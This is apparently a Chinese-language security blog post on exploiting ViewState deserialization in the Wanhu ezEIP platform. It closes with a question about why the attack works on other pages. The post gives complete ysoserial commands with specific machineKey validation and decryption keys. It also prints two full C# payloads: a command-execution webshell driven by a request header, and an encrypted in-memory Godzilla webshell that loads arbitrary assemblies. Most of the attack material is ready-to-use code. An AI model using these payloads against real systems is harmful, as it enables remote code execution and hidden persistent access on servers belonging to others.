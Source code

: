 ### 万户ezEip



在半年以前我收藏了一篇文章：ViewState反序列化实现无文件哥斯拉内存马，结果这几天在这个漏洞爆出来之后才发现这篇22年的文章就是以万户的success.aspx为例进行的ViewState反序列化



在文章的最后写出了.net如何去加载哥斯拉内存马



#### ActivitySurrogateSelectorFromFile

可以执行自己编写的程序集（只是可以加载dll文件形式）



如果要用ActivitySurrogateSelectorFromFile链执行代码，且目标在ASP.NET 4.8以上，需要先DisableTypeCheck。不然直接用这条链打的话，会报state到Pair的转换错误。



```
`ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck -c "aaa" --validationalg="HMACSHA256" --validationkey="B298BA4E89C9631254E60F7C6E60B3287554B5175906E3CF8C446D9D5EAB496CEA7C76460CBC3095A7ABFC9C71BBE7CA5276CD412BE2F5F142C0F7624062734E" --generator="5F3023B1" --decryptionalg="AES" --decryptionkey="B298BA4EB3474EAE783D6A3295021698ECB183CDC9D407F1" --islegacy --isdebug --isencrypted `
```

然后再利用ActivitySurrogateSelectorFromFile链执行代码。在code.cs中，写一个类（把需要执行的代码写在构造函数或者静态代码块中）反序列化时会实例化该类

比如说下面这个回显马

```
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

内存马

```
class d
{
    public d()
    {
        System.Web.HttpContext Context = System.Web.HttpContext.Current;
        Context.Server.ClearError();
        Context.Response.Clear();
        try
        {
            string key = "3c6e0b8a9c15224a";
            string pass = "pas";
            string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "");
            byte[] data = System.Convert.FromBase64String(Context.Request[pass]);
            data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);
            if (Context.Session["payload"] == null)
            {
                Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data });
            }
            else
            {
                System.IO.MemoryStream outStream = new System.IO.MemoryStream();
                object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY");
                o.Equals(Context); o.Equals(outStream); o.Equals(data); o.ToString();
                byte[] r = outStream.ToArray();
                Context.Response.Write(md5.Substring(0, 16));
                Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length))); Context.Response.Write(md5.Substring(16));
            }
        }
        catch (System.Exception) { }
        Context.Response.Flush();
        Context.Response.End();
    }
}
```



```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "code.cs;System.Web.dll;System.dll;" --validationalg="HMACSHA256" --validationkey="B298BA4E89C9631254E60F7C6E60B3287554B5175906E3CF8C446D9D5EAB496CEA7C76460CBC3095A7ABFC9C71BBE7CA5276CD412BE2F5F142C0F7624062734E" --generator="5F3023B1" --decryptionalg="AES" --decryptionkey="B298BA4EB3474EAE783D6A3295021698ECB183CDC9D407F1" --islegacy --isdebug --isencrypted
```





ViewState 反序列化在.NET Framework 4.5 (4.0) 版本之前使用legacy 模式而在万户ezEIP由于*targetFramework*="4.0"可以直接

```
ysoserial.exe -g ActivitySurrogateSelectorFromFile -p ViewState --decryptionalg="3DES"  --decryptionkey="XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"  --validationalg="SHA1" --validationkey="BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB" --generator=60AF4XXX -c "CHANGEME.cs;System.Web.dll;System.dll"
```

但是我在index.aspx或者其他路径也攻击成功，按照生成步骤来说generator用的是success.aspx的__VIEWSTATEGENERATOR，而生成VIEWSTATEGENERATOR是依据TemplateSourceDirectory和classname而不是machineKey，所以不同的文件在相同的machinekey情况下会VIEWSTATEGENERATOR不同，虽然VIEWSTATEGENERATOR不参与反序列化但是作为生成步骤的一环按理来说不是应该攻击失败吗
